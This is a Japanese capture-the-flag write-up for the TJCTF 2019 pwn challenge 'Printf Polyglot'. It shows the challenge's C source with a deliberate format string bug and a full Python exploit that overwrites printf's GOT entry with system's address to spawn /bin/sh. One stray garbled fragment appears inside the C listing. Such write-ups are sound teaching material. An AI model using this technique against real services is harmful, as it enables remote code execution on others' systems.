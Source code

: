 // date: 2019-04-12

# はじめに
2019年4月の4日〜8日、NekoChanNano!というCTFチームでTJCTFに参加しました。解けた問題の中、Pwn系の問題「Printf Polyglot」があり、今回この問題の解き方を解説していきたいと思います。

# 概要
こちらは問題記載:
```
Printf Polyglot - 120 points

Written by nthistle

Security Consultants Inc. just developed a new portal! We managed to get a hold of the source code, and it doesn't look like their developers know what they're doing.

nc p1.tjctf.org 8003
```
ご丁寧にELFバイナリとソースコードが与えられます。ではとりあえずバイナリを実行してみましょう。
```
$ ./printf_polyglot
Welcome to the brand new Security Consultants Inc. portal!
What would you like to do?
1.) View the Team!
2.) Check the date.
3.) Sign up for our newsletter!
4.) Report a bug.
x.) Exit.
```
またメニュー系なインターフェースですね。自分は普段、プログラムの動作を把握するには、直接にいじるよりコードを読むのが楽なので、そのソースコードを読んでから行こうと思います！

# 解析
コードが長かったため全部を貼りはしないけど、main関数を見れば各メニューオプションそれぞれの関数があることがわかります。
```c
int main() {
   gid_t gid = getegid();
   setresgid(gid, gid, gid);
   setbuf(stdout, NULL);

   printf("Welcome to the brand new Security Consultants Inc. portal!\n");
   char action = 0;
   char line[128];
   while (action != 'x') {
      printf("What would you like to do?\n");
      printf("1.) View the Team!\n");
      printf("2.) Check the date.\n");
      printf("3.) Sign up for our newsletter!\n");
      printf("4.) Report a bug.\n");
      printf("x.) Exit.\n");
      fgets(line, sizeof line, stdin);
      action = line[0];
      if (action == '1') {
         view_team();
      } else if (action == '2') {
         check_date();
      } else if (action == '3') {
         newsletter();
      } else if (action == '4') {
         report_bug();
      } else if (action != 'x') {
         printf("Sorry, I didn't recognize that.\n");
      }code redirectio
      printf("\n");
   }
}
```
他の関数を見たら、気になったのがcheck_dateとnewsletterだけでした。
```c
bool date_enabled = false;
[...]
// apparently calling system() isn't safe? I disabled it so we
// should be fine now.
void check_date() {
   printf("Here's the current date:\n");
   if (date_enabled) {
      system("/bin/date");
   } else {
      printf("Sorry, date has been temporarily disabled by admin!\n");
   }
}
```
こうやって変数を使って、systemを呼び出さないようにしたようですが、system関数がコードに入ってるだけでPLTに含まれますので、もしある脆弱性を使ってRIPレジスタを奪えられれば、systemの位置が既にわかります(PIEが有効な場合を除く)。攻撃者にとってはそれがすごく助かります。
```c
void newsletter() {
   printf("Thanks for signing up for our newsletter!\n");
   printf("Please enter your email address below:\n");

   char email[256];
   fgets(email, sizeof email, stdin);
   printf("I have your email as:\n");
   printf(email);
   printf("Is this correct? [Y/n] ");
   char confirm[128];
   fgets(confirm, sizeof confirm, stdin);
   if (confirm[0] == 'Y' || confirm[0] == 'y' || confirm[0] == '\n') {
      printf("Great! I have your information down as:\n");
      printf("Name: Evan Shi\n");
      printf("Email: ");
      printf(email);
   } else {
      printf("Oops! Please enter it again for us.\n");
   }

   int segfault = *(int*)0;
   // TODO: finish this method, for now just segfault,
   // we don't want anybody to abuse this
}
```
あれれ？気のせい？？
```c
printf(email);
```
こう、ユーザーの入力したデータをそのままformat stringを使わずにprintfに渡すと、いわゆるFormat String Bug（FSB）という脆弱性が生まれます。FSBを使えば、例えば任意読み込みや任意書き込みができます。

# 作戦
FSBを使って、ある関数のGOTポインターを上書きし、systemのPLTアドレスに変えましょう。
fgetsの後に呼び出されるので、そして入力したemail変数がそのままわたされますので、printfが最適な候補だと思います。

`printf(email);`がこう、二回呼び出されますが、もし一回目はFSBを行えば、二回目はもうprintfではなく、`system(email)`になりますのでご注意ください。そのため、email変数が同時にformat stringでもあり、シェルコマンドでもある必要があります。

# エクスプロイト
```python
#!/usr/bin/python2
# -*- coding: utf-8 -*-
import struct

# 作戦：FSBを使ってprintfのGOT要素(0x602048)に、systemのPLTアドレス(0x4006e0)を書き込む。
# 次にprintfが呼び出される際、system関数が代わりに実行されてしまう。

def payload():
    padding = "a" * 100
    command = "/bin/sh #" # 直後のスタックデータが含まれちゃうから「#」でコメント化
    # 説明：メニュー選択がスタック変数のactionに保存される。
    # そこにアドレスを入れたら、FSBを起こせるときに利用できます。
    selection = "3       "
    selection += struct.pack("<Q", 0x00602048) # スタック第63引数。
    selection += struct.pack("<Q", 0x0060204a) # スタック第64引数。
    # 説明：出力済文字数が0x40になるまでスペースを%cで出力して、
    # 第64引数(0x60204a)に0x40を書き込む。そのあと、また%cでバイトを出力、
    # 第63引数(0x602048)に0x06e0を書き込む。そうしたらprintfのGOT要素が0x4006e0になり、
    # ジャンプすればsystemのPLTアドレスに移動しちゃいます。
    format_string = command + "%55c%64$n%1696c%63$hn" + padding
    format_string = format_string[:100]
    return selection + "\n" + format_string + "\ny\n"

print(payload())
```

さあ、作戦開始！
![flag.png](.res/printf_polyglot_1.png)

以上Printf Polyglotの解答方法でした。
